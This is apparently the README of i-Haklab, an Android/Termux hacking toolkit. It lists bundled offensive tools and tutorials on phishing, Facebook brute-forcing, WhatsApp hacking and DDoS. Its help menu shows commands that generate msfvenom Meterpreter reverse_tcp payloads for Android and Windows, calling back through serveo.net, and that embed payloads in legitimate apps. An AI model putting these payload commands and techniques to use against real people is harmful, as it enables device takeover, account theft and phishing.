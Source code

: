 # i-Haklab v.1.0 2019 by @Ivam3
	DISCLAIMER
Please do not use in military or secret service organizations, or for illegal purposes.
Ivam3 is not responsible for the misuse that can be given to everything that this laboratory entails

To get help about how to use it join to irc chat in i-Haklab command
		: $ i-Haklab weechat

To report some issues join to >> https://t.me/Ivam3_Bot

# What is i-Haklab ?

- i-Haklab Is a hacking laboratory that contains open source tools recommended by Ivam3 with automation hacking commands. i-Haklab use oh my fish insteractive shell, to get help about its use going to >> https://fishshell.com/docs/current/tutorial.html.

# Process during installation

i-haklab will ......
- check if your android device has some root, if so, it will install the sudo command.
- check if termux has permission to access the external memory, thus, in there it will create a directory called homeroot and there will install the tools and/or frameworks. otherwise they will be installed in the directory /data/data/com.termux/files/home. By the way, in case of Termux is installed in a second partition of your external memory those will be in /data/sdext2/data/com.termux/files/home.
- Once the installation of the tools and/or frameworks is finished, i-Haklab will ask you to configure your password, security question and answer, which will be necessary to start session in i-Haklab.
- i-Haklab has the "lock" command which will block the screen and it will only be unlocked with said password or answering the security question. It is worth mentioning that these access codes are encrypted for your security
- Coupled with it i-Haklab has an automation command for updating, installing and uninstalling tools and books, and executing hacking processes under a single command. under the command we will find the weechat argument, with which you can join the official IRC Ivam3byCinderella ((Internet Relay Chat (IRC) is an application layer protocol that facilitates communication in the form of text. The chat process works on a client/server networking model)).

To see the main menu Just execute from the command line 

		: $ i-Haklab --help

# i-Haklab help menu

Syntax: i-Haklab [-arg-] [-option-]

Arguments  |    Options     |    Description

╰─help─────➤────────────────➤ Show this help menu
╰─list─────➤────────────────➤ List all available tools/frameworks
╰─show─────➤──tools/books───➤ Show tools details and books availables
|   ╰──────➤──tutorials/QG──➤ Show tutorials and Quick Guides availables
╰─install──➤───tool/book────➤ Install tools or books
╰─remove───➤─────tool───────➤ Remove tools
╰─weechat──➤────────────────➤ Connect with irc Ivam3byCinderella chat
╰─update───➤────────────────➤ Update i-Haklab
╰─upgrade──➤────────────────➤ upgrade i-Haklab by installing/upgrading tools
╰─version──➤────────────────➤ Show i-Haklab version installed
|       |        |
[--] Automatitation Arguments [--]
Arguments  |    options     |    Description
╰─handler──➤──file.rc name──➤ Start handler on msfconsole with previous setting
╰───apk────➤──inlan/outlan──➤ Create a coded payload apk with msfvenom
|               ╰─────|─────➤ LPORT=4546 Payload=android/meterpreter/reverse_tcp apk=inlan.apk
|                     ╰─────➤ LPORT=48263 LHOST=serveo.net apk=outlan.apk
|                             Payload=android/meterpreter/reverse_tcp
╰─paylink──➤─pc/nexam/soa5──➤ Create a link payload with handler
|             ╰───|────|────➤ For targets [0]generic, [1]windows, [2]macOS and [3]linux
|                 |    |      example: i-Haklab paylink pc 2
|                 ╰────|────➤ For targets [0]nexxus and [29]samsung
|                      |      example: i-Haklab paylink nexam 29
|                      ╰────➤ For android operative system equal at version 5 to down
╰──payexe──➤──inlan/outlan──➤ Create a coded payload .exe with msfvenom
|               ╰─────|─────➤ LPORT=4546 Payload=windows/meterpreter/reverse_tcp file=inlan.exe
|                     ╰─────➤ LPORT=48263 Payload=windows/meterpreter/reverse_tcp
|                             LHOST=serveo.net apk=outlan.apk
╰─serveo───➤────────────────➤ Start a SSH client to request TCP port forwarding from the server and proxy
|    ╰─────➤────domain──────➤ Start a SSH client to request port forwarding with especific dns

**** If you want to suggest some command do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


# Tools or frameworks available in i-Haklab

01: D-TECT
02: DoS-A-Tool
03: ExiF
05: binchecker
06: blackbox
07: converter
08: adminpanel
09: wpscan
10: aircrack-ng
11: androbugs
12: beef
13: bettercap
14: cc-genpro
15: java
16: credmap
17: crunch
18: embed
19: evilurl
20: fbbrute
21: fbi
22: fuzzdb
23: hakku
24: hatcloud
25: hunner
26: ipgeolocation
27: metasploit
28: ngrok
29: nikto
30: pasterm
31: youtube-dl
32: php-server
33: pybelt
34: recon-ng
35: recondog
36: redhawk
37: routersploit
38: seeker
39: shellphish
40: shellsploit
41: spotichk
42: sqliv
43: sqlmap
44: ssh-server
45: theharvester
46: hydra
47: tor

**** If you want to suggest some tool, do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


# Games available in i-Haklab

01: 2048
02: angband
03: brogue     
04: curseofwar
05: gnugo
06: greed
07: mathomatic
08: moon-buggy
09: snakegame
10: solitaire

**** If you want to suggest some game do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


# Books available in i-Haklab

01: Aprende html
02: Chema alonso coleccion
03: Comandos basicos linux
04: Cracking sin secretos
05: Conviertete en hacker by incube2
06: Ethical hacking
07: Hacking con python
08: Hacking etico 101
09: Hacking mexico seguridadofensiva nv.1
10: Hacking the hacker
11: Manual hacking dispositivos moviles
12: Metasploit para pentesters
13: My sql
14: Nmap by computaxion
15: Programa en C
16: Programa en C++
17: Programa en bash
18: Programacion en perl
19: Programacion en php
20: Programacion en ruby
21: Python para todos

**** If you want to suggest some book do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


# Tutorials available in i-Haklab

01: TERMUX TIPS Cap.1
02: TERMUX TIPS Cap.2
03: TERMUX TIPS Cap.3
04: TERMUX TIPS Cap.4
05: TERMUX: Aprendamos como ejecutar comandos
06: TERMUX: Combinación de comandos
07: TERMUX: Instalando el comando Sudo
08: TERMUX: Modifica y/o personaliza el banner de iniciO
09: Termux - Creando contraseña de acceso (logging banner)
10: TERMUX: Youtube-DL
11: METASPLOIT: Instalación
12: METASPLOIT: RuGiR
13: METASPLOIT: Hacking Android inLAN
14: METASPLOIT: Persistencia en Android
15: METASPLOIT: Hacking Android outLAN
16: METASPLOIT: Hackeado Android inLAN con paylink
17: METASPLOIT: EMBED Inyectando payload en app legítima inLAN
18: METASPLOIT: EMBED Inyectando payload en app legítima outLAN
19: Dos-A-TooL - Ataque distribuido de denegación de servicio
20: METASPLOIT - Ataque distribuido de denegación de servicio
21: Kali-nethunter: Como instalarlo(no root)
22: HACKING WHATSAPP 1ra parte
23: HACKING WHATSAPP 2da parte
24: SETOOLKIT - Instalacion
25: PHISHING : Weeman Framework(1ra parte)- Instalación
26: PHISHING : Weeman Framework(2da parte)- Hacking Facebook inLAN
27: PHISHING : Weeman Framework(3ra parte) - Hacking Facebook - Asignacion de dominio(DNS)
28: NGROK : Instalacion
29: PHISHING : WEEMAN (4ta parte) - Hacking Facebook outLAN
30: PHISHING: Shellphish Framework - Hacking redes sociales
31: CRUNCH - Crear diccionearios para ataques de fuerza bruta
32: FBBRUTE - Ataque de fuerza bruta a FACEBOOK
33: FBI - Como sustraer información de un Facebook Hackeado
34: IPGEOLOCATION: Geolocalizacion de IP's en Google Maps
35: ExiF - Extrayendo Meta Datos
36: BETTERCAP - Instalación
37: i-Haklab - TUTORIAL
38: CURSO DE PROGRAMACIÓN EN BASH 1ra Parte
39: CURSO DE PROGRAMACIÓN EN BASH 2da Parte
40: CURSO DE PROGRAMACIÓN EN BASH 3ra Parte

**** If you want to suggest some tutorial do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot



# INSTALLATION

Whit script Ivam3-Haklab

- download the script Ivam3-Haklab in 

		: https://shrt.am/

- move it to Home directory

		: $ mv <downloading directory> $HOME

- execute it by command 

		: $ bash Ivam3-Haklab

Cloning it from Github

- Clone it to home directory

		: $ git clone https://github.com/ivam3/i-Haklab.git $HOME/i-Haklab

- Go to i-Haklab directory

		: $ cd $HOME/i-Haklab

- Give permissions needed

		: $ chmod 711 -R *

- Run the setup file

		: $ bash setup




*** HAVE A NICE HACKING DAY!!!!



# 						@Ivam3
